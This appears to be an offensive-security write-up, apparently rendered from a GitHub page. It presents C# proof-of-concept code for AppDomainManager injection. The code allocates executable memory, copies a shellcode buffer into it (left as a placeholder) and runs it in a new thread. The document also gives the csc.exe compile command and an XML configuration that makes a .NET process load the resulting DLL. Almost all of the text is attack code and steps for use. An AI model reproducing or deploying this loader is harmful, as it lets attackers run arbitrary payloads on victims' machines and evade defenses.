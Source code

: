 ```csharp
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.Threading.Tasks;

public sealed class MyAppDomainManager : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        bool res = ClassExploit.Execute();
        return;
    }
}
  
public class ClassExploit
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public static bool Execute()
    {
       byte[] buf = new byte[510] { #shellcode here# };
       int size = buf.Length;
       IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
       Marshal.Copy(buf, 0, addr, size);
       IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
       WaitForSingleObject(hThread, 0xFFFFFFFF);
       return true;
    }
}
```

- Upload the cs file on client and compile with:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:x64 /target:library .\poc.cs
```

- download back the dll generated (`poc.dll`) to our linux container
- create the configuration file `msf.config`

```
<configuration>
  <runtime>
    <appDomainManagerAssembly value="poc, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />
    <appDomainManagerType value="MyAppDomainManager" />
  </runtime>
</configuration>
```
